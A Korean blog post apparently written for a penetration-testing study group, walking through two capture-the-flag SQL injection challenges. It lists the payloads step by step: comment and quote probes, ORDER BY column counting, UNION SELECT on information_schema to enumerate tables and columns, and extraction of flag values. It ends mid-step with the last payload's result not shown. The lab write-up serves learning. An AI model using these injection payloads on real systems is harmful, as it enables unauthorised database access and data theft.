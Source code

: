 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[SECURITY] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL INJECTION 1
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true">
처음으로 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. adminer
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true">> 대소문자 구분 X
2. adminer'
-> X
3. a%
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true">
-> like 구절 있어
4. a#
-> X
5. a'#
-> X
6. a%'#
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true">
-> 입력값이 들어가는 곳이 like 위치인가 보다
-> 괄호 안 들어가고
-> 주석 필터링 없고
7. ' and '1' = '1
-> X
8. %' and '1' = '1
-> X
9. ' and '1' = '1'#
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true">
-> O

## column 개수 파악하기
10. ' order by 1, 2, 3, 4 #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true">
-> O
11. ' order by 1, 2, 3, 4, 5 #
-> X
-> column 개수 4개

## UNION 사용 가능한지 확인하기
12. ' union select 1, 2, 3, 4 #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true">
-> O

## DATABASE 이름 확인하기
13. ' union select database(), 2, 3, 4 #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true">
-> sqli_1

## TABLE 이름 확인하기
19. ' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true">
-> flag_table, plusFlag_Table, user_info

## COLUMN 이름 확인하기
20. ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true">
-> flag
21. ' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true">
-> idx, flag

## DATA 추출하기
22. ' union select flag, 2, 3, 4 from flag_table #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true">
23. ' union select idx, flag, 3, 4 from plusFlag_Table #
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true">

# SQL INJECTION 2
## SQL Query 파악
1. normaltic
-> 보이는 column은 ID, Level, Rank Point, info
2. normaltic' and '1' = '1
-> O
-> ID가 입력한 그대로 보임
3. *
-> row가 1개인가봐

## column 개수 파악하기
4. normaltic' order by 1, 2, 3, 4 #
-> O
5. normaltic' order by 1, 2, 3, 4, 5 #
-> O
6. normaltic' order by 1, 2, 3, 4, 5, 6 #
-> O
7. normaltic' order by 1, 2, 3, 4, 5, 6, 7 # 
-> X
-> column: 6

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. ' union select database(), 2, 3, 4, 5, 6 #
-> X
-> 1 column 비공개다
9. ' union select 1, database(), 3, 4, 5, 6 #
-> 2 column 비공개다
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 6 column 공개

## TABLE 이름 확인하기
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> flag_honey

## COLUMN 이름 확인하기
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #
-> flag

## DATA 추출하기
13. ' union select 1, 2, 3, 4, 5, flag from flag_honey #
-> kkkkkkk_Not Here!
-> 어쩐지 구라핑의 냄새가 나더라


왜 1개씩 밖에 안 보일까?
-> row가 딱 한 개다?
14. ' or '1' = '1
-> row 1개
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
-> row가 한 개 밖에 안 보이니까
-> 다른 table이 있는 데 안 보이는 거지
12. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#
-> view라는 다른 table이 보여요 좋아요
13. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #
-> secret
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #
-> flag
13. ' union select 1, 2, 3, 4, 5, flag from secret #
-> NONONO~
14. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' order by 6 #
-> flag
15. ' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #